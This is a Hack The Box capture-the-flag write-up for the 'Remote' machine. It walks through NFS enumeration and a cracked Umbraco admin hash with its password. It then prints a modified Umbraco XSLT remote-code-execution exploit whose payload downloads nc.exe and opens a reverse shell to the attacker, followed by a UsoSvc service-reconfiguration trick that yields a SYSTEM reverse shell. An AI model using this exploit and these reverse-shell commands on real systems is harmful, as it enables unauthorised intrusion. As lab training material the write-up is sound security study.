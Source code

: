 ```yaml
---
title:  "Hack The Box - Remote"
date:   2020-03-21
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf, rdp, Remote-Desktop]
---
```

My write-up / walktrough for Remote on Hack The Box. 

## Quick summary
Recently, Remote got retired and I'm now allowed to publish my write-up.
I added the box to `/etc/hosts` as `remote.htb` with it's ip `10.10.10.180`

![infocard](/images/remote/infocard.png)

## Enumeration
As allways, I started with some enumeration and scanned `remote.htb` with `nmap -sTV -p 1-10000 -oN nmap_tcp_scan remote.htb`

![nmap](/images/remote/nmap.png)

I found a couple of open ports and services to poke around there. `ftp` seemed to be a dead end, but I was able to show and mount a `nfs-share` on port 2049

```shell
faebu@kali:showmount -e remote.htb
faebu@kali:mkdir /tmp/infosec
faebu@kali:sudo mount -t nfs remote.htb:/site_backups /tmp/infosec
```
By enumerating the share on `/tmp/infosec`, I realized that the share contained a backup of a webseite, run by the `Umbraco-CMS`. I was not able to load the database on `App_Data/Umbraco.sdf` with a tool, but I could grab a hash by inspecting the file manually with an editor.
`admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa`

## crack the hash
I tried to crack the hash online and found instantly a match. `b8be16afba8c314ad33d812f22a04991b90e2aaa -> baconandcheese`

![crackstation](/images/remote/crackstation.png)

## Exploitation
With this credentials, I was able to log in the cms.
![logincms](/images/remote/loginCMS.png)

Now, the next step was to lookout for a possibility to take advantage of the gathered credentials, so I checked if there are some `remote code execution vulnerabilities` with `Umbraco`. Indead, I found an interesting proove of concept on [www.exploit-db.com](https://www.exploit-db.com/exploits/46153), which I had to modify as follows:

```python
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators

# Dork: N/A

# Date: 2019-01-13

# Exploit Author: Gregory DRAPERI & Hugo BOUTINON, adapted by jaeflo

# Vendor Homepage: http://www.umbraco.com/

# Software Link: https://our.umbraco.com/download/releases

# Version: 7.12.4

# Category: Webapps

# Tested on: Windows IIS

# CVE: N/A
import requests;
from bs4 import BeautifulSoup;

def print_dict(dico):

    print(dico.items());

# Execute a reverse shell with nc
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "mkdir /tmp;iwr -uri http://10.10.xx.xx:80/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.xx.xx 443 -e cmd.exe"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";

password="baconandcheese";

host = "http://remote.htb";

# Step 1 - Get Main page

s = requests.session()

url_main =host+"/umbraco/";

r1 = s.get(url_main);

# Step 2 - Process Login

url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";

loginfo = {"username":login,"password":password};

r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page

url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";

r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');

VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];

VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];

UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];

headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};

data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack

r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```
The exploit loads the file nc.exe to `remote.htb`, so I also had to start a local webserver on my machine and provide there the requested file.

Before executing the exploit, I had to start a local netcat-instance in listening mode. After executing the exploit, I got a revershell on my machine and was able to grab the user flag with it.

![reverseshell](/images/remote/reverseshell.png)

## Privilege Escalation
Now, I had to enumerate the system a bit further. I decided to upload winPEASany.exe to remote.htb. I did this by tweaking the exploit for the reverse shell so that it opened a powershell instead of cmd.exe.
```
/tmp/nc.exe 10.10.xx.xx 443 -e powershell.exe
```
and uploaded the exe afterwards with `iwr`.
![upload](/images/remote/winpeaUpload.png)

The tool found numerous misconfiguration and possible attack-vectors, but to me, the most promising part was, that the actual logged in user is able to modify the `Update Orchestrator Service`

![privesc](/images/remote/privesc.png)

there are many explenation found on the internet how to take advantage of this fact. I followed the steps which [hipotermia](https://hipotermia.pw/htb/querier) described on his walkthrough of the `HTB-Box Querier` to reconfigure `UsoSvc` to get a reverse shell as `System`. 

```bash
PS C:\tmp> sc.exe stop UsoSvc
PS C:\tmp> sc.exe config usosvc binPath="C:\tmp\nc.exe 10.10.xx.xx 6868 -e cmd.exe"
PS C:\tmp> sc.exe qc usoSvc
```
![usosvc](/images/remote/usosvc_conf.png)

## Root the box
Once I started the `Update Orchestrator Service` `(sc.exe start usosvc)`, I got a reverseshell as `System`

![rootshell](/images/remote/rootshell.png)

As the Service last just for a couple of seconds, we have to be quick to gather the flag ;-)

![rootflag](/images/remote/rootflag.png)

## Conclusion 
Great box and a lot of fun. I had a pretty hard time to get to user, got stuck plenty of times with loose ends, but once I got user-access, I got root pretty fast as well. Unfortunately, the box is called `Remote` and I noticed well the `Teamviewer-Service`, but to be honest, I had no clue how to proceed on it. So I would say, I got the root flag, but not the intended way :-/
**Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box